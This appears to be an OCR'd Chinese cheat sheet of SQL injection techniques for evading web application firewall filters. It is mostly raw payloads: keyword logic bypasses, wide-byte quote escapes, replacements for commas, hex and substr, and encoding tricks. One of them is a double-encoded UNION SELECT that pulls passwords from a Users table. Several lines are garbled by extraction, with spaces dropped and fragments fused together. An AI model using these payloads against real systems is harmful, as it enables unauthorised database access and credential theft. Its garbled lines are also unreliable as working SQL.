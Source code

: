 ```sql
逻辑绕过
waf = 'and|or|union|where|limit|group by|select|\''
过滤代码 1 && substr(user,1,1) = 'a'
绕过方式 1 && user_id is not null1 && substr(user,1,1) = 0x611 && substr(user,1,1) = unhex(61)


宽字节绕过
%bf%27 %df%27 %aa%27
```



#### 过滤逗号

```sql
在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决：
selectsubstr(database(0from1for1);selectmid(database(0from1for1);

对于limit可以使用offset来绕过：

select*fromnews limit0,1# 等价于下面这条SQL语句select*fromnews limit1offset0
```



#### 过滤hex

```sql
逻辑绕过
过滤代码 1 && substr(user,1,1) = unhex(61)
绕过方式 1 && substr(user,1,1) = lower(conv(11,10,16)) #十进制的11转化为十六进制，并小写。
```



#### 过滤substr

```sql
逻辑绕过

过滤代码 1 && substr(user,1,1) = lower(conv(11,10,16)) 
绕过方式 1 && lpad(user(),1,1) in 'r'
```



#### 编码绕过

利用urlencode，ascii(char)，hex，unicode等编码绕过

```sql
or 1=1即%6f%72%20%31%3d%31，而Test也可以为CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)。

十六进制编码
SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))

双重编码绕过
?id=1%252f%252a*/UNION%252f%252a /SELECT%252f%252a*/1,2,password%252f%252a*/FROM%252f%252a*/Users--+
```
